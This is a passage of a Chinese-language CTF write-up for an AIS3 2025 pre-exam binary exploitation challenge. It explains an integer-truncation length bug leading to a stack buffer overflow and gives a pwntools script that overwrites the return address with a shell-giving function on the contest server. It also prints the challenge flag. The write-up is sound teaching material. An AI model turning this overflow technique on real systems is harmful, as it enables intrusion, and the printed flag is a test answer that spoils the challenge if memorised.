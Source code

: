### Problem

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\problem.png)

### Solve

執行後再加上 assembly 可以看到輸入完 yes 後可以輸入一個長度及該長度的字串

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\chal.png)

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\main.png)

`read_int8()` 的數字必須比 128 小，~~所以猜 -1，成功 `SIGSEGV` 蓋rbp 就有 flag 了~~

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\read_int8.png)

注意到 `0x401482` 會把 `read_int8` 的結果只複製一 byte (`al`) 作為長度，所以輸入 -1 (0xffffffffffffffff) <= 127，複製後會是 0xff (255)

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\mov.png)

再看蓋到 reuturn address 的 padding 是 0xa8

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\stack.png)

另外可以找到給 shell 的 win function

![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\win.png)

```python
from pwn import *

exe = ELF("./chal")
# p = process("./chal")
p = remote("chals1.ais3.org", 60651)

p.sendlineafter(b"?", b"yes")
p.sendlineafter(b":", b"-1")
p.sendlineafter(
    b":",
    b"A" * 168 + p64(exe.symbols['Welcome_to_the_world_of_Ave_Mujica'])
)

p.interactive()
```

成功取得 flag
![alt text]({{site.baseurl}}\assets\images\AIS3-2025-pre-exam\Welcome-to-the-World-of-Ave-Mujica\flag.png)

**FLAG: AIS3{Ave Mujica🎭將奇蹟帶入日常中🛐(Fortuna💵💵💵)...Ave Mujica🎭為你獻上慈悲憐憫✝️(Lacrima😭🥲💦)..._ecdd2f5868ac72a6d28cdf469bdcb996}**

## Format Number
